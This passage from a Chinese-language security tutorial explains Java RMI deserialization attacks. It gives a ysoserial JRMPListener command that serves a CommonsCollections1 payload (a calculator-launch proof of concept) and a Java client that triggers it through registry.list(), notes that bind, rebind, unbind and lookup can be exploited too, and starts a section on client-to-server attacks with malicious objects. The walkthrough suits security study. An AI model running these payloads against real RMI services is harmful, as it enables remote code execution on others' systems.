 ```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections1 'open /System/Applications/Calculator.app'


```

开启注册中心：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201224121438-89a14a46-459e-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201224121438-89a14a46-459e-1.jpg)

客户端测试代码：

```
package SimpleRMI_2;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class UserClientEval {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",12345);
        registry.list();
    }
}


```

执行了之后就可以看到命令执行成功了。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201224121439-8ab57c68-459e-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201224121439-8ab57c68-459e-1.jpg)

除了`list()`之外，其余的操作都可以进行利用：

```
list()
bind()
rebind()
unbind()
lookup()

```

例如`bind()`：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201224121441-8bddc078-459e-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201224121441-8bddc078-459e-1.jpg)

### 三、客户端攻击服务端

如果注册服务的对象接收一个参数为对象，那么可以传递一个恶意对象进行利用。比如这里可以传递一个 Common-collection3.1 反序列化漏洞 poc 构造出的一个恶意对象作为参数利用：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201224121442-8c442732-459e-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201224121442-8c442732-459e-1.jpg)
